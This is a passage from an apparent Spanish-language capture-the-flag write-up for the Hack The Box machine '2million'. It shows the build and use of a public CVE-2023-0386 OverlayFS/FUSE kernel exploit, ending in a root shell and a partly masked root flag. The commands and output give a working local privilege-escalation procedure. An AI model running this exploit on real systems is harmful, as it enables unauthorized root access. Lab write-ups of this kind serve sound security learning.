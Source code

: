 ```bash
  221 |     rmdir(mount_path);
      |     ^~~~~
/usr/bin/ld: /usr/lib/gcc/x86_64-linux-gnu/11/../../../x86_64-linux-gnu/libfuse.a(fuse.o): in function `fuse_new_common':
(.text+0xaf4e): warning: Using 'dlopen' in statically linked applications requires at runtime the shared libraries from the glibc version used for linking
gcc -o exp exp.c -lcap
gcc -o gc getshell.c
```

Verificamos que se nos han generado diversos archivos adicionales.

```bash
admin@2million:/tmp/CVE-2023-0386-master$ ls -l
total 1444
-rwxrwxr-x 1 admin admin   17160 Feb 16 23:02 exp
-rw-rw-r-- 1 admin admin    3093 May 16  2023 exp.c
-rwxrwxr-x 1 admin admin 1407736 Feb 16 23:02 fuse
-rw-rw-r-- 1 admin admin    5616 May 16  2023 fuse.c
-rwxrwxr-x 1 admin admin   16096 Feb 16 23:02 gc
-rw-rw-r-- 1 admin admin     549 May 16  2023 getshell.c
-rw-rw-r-- 1 admin admin     150 May 16  2023 Makefile
drwxrwxr-x 2 admin admin    4096 May 16  2023 ovlcap
-rw-rw-r-- 1 admin admin     180 May 16  2023 README.md
drwxrwxr-x 2 admin admin    4096 May 16  2023 test
```

Siguiendo la explotación, deberemos de ejecutar los siguientes archivos para conseguir acceso como `root`.

```bash
admin@2million:/tmp/CVE-2023-0386-master$ ./fuse ./ovlcap/lower ./gc
[+] len of gc: 0x3ee0
```

Deberemos de disponer de otra nueva terminal, ya que desde esta deberemos de ejecutar el comando `./exp` el cual finalmente obtendremos acceso como `root` y podremos visualizar la flag **root.txt**.

```bash
admin@2million:/tmp/CVE-2023-0386-master$ ./exp
uid:1000 gid:1000
[+] mount success
total 8
drwxrwxr-x 1 root   root     4096 Feb 16 23:04 .
drwxrwxr-x 6 root   root     4096 Feb 16 23:04 ..
-rwsrwxrwx 1 nobody nogroup 16096 Jan  1  1970 file
[+] exploit success!
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@2million:/tmp/CVE-2023-0386-master# whoami
root
root@2million:/tmp/CVE-2023-0386-master# cat /root/root.txt 
4d832b818337********************
```

